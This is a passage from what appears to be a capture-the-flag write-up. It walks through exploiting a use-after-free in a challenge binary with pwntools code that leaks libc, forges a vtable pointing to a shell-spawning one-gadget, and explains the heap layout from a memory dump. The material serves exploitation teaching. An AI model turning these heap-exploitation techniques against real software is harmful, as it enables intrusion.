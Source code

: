 ```python
	buy(1, 256, "AAAABBBB")	# 0
	buy(1, 256, "CCCCDDDD")	# 1
	
	dropgun(0)

	LIBCLEAK = u32(usegun(0)[len("Select gun "):len("Select gun ")+4])
	LIBC = LIBCLEAK - 0x1b27b0

	info("LIBC leak        : %s" % hex(LIBCLEAK))
	info("LIBC base        : %s" % hex(LIBC))
```

Now let's create a fake vtable, which contains something more useful (for us) than *BIU~*. A function pointer to a magic gadget, that opens a shell might be more helpful:

```
	ONE = LIBC + 0x3ac69		
	HEAPDEST = HEAPLEAK + 0x2c 

	info("One gadget       : %s" % hex(ONE))
	info("HEAP destination : %s" % hex(HEAPDEST))
	
	payload = "AAAA"
	payload += p32(ONE)			# VTable Shoot
	payload += "CCCC"			# VTable Reload
	payload += "DDDD"			# VTable ShowInfo
	payload += "EEEE"

	buy(1, 32, payload)			# 0
```

*HEAPDEST* will contain the address, where this vtable is stored on the heap (Name + 4 bytes). So, *all* we'll have to do, is to create a gun, which uses this vtable. Again the *use-after-free* will help us with this.

The size of a gun class is 20 bytes. If we allocate 3 guns with a name 32 bytes long, each one will allocate 20 bytes for itself and 32 bytes for its name.

```
0x5655ea60:	0x00000000	0x00000000	0x00000000	0x00000019  
0x5655ea70:	0x56556d30	0x5655ea88	0x0000000f	0x0000000f  <-- Gun (vtable / name ptr / curAmmo / maxAmmo)
0x5655ea80:	0x00000000	0x00000029	0x58585858	0x59595959  <-- Name
0x5655ea90:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655eaa0:	0x00000000	0x00000000	0x00000000	0x00000019  
0x5655eab0:	0x56556d30	0x5655eac8	0x0000000f	0x0000000f  <-- Gun (vtable / name ptr / curAmmo / maxAmmo)
0x5655eac0:	0x00000000	0x00000029	0x45454545	0x46464646  <-- Name
0x5655ead0:	0x00000000	0x00000000	0x00000000	0x00000000
```

When we now free (drop) those guns, the gun classes will be put in fastbinsY[1], while the freed name chunks will be put into fastbinsY[3].
